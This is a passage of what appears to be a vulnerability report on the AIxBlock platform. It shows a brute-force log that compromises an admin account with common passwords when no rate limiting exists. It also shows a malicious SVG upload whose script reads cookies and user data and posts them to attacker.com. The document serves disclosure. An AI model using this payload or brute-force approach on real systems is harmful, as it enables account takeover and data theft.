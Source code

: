 ```
Authentication Attempt Log:
--------------------------
[10:30:01] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: password)
[10:30:01] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: 123456)
[10:30:02] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: admin)
[10:30:02] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: qwerty)
...
[10:32:15] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: aixblock2023)
[10:32:16] POST /v1/authentication/sign-in - 200 ✅ (email: admin@aixblock.com, password: aixblock2024)

Rate Limiting Status:
--------------------
Requests in 1 minute: 412
Requests per second: 6.8
Rate limit triggered: NO ❌
Account locked: NO ❌
CAPTCHA required: NO ❌

Attack Statistics:
-----------------
Total attempts: 412
Time elapsed: 2m 15s
Success: YES (attempt #412)
Account compromised: admin@aixblock.com
```

**Visual Indicators**:
- ❌ No rate limiting implemented
- ❌ 400+ attempts in 2 minutes
- ❌ No account lockout
- ❌ Admin account compromised

---

## 6. File Upload - Malicious File Accepted

### Screenshot: File Upload Response
**Location**: Upload Component
**URL**: `http://localhost:4000/upload`

```
Upload Request:
--------------
File Name: malicious.svg
File Type: image/svg+xml
File Size: 2.5 KB

File Content:
------------
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)">
  <script>
    fetch('/api/users/me')
      .then(r => r.json())
      .then(data => {
        fetch('https://attacker.com/steal', {
          method: 'POST',
          body: JSON.stringify(data)
        });
      });
  </script>
</svg>
```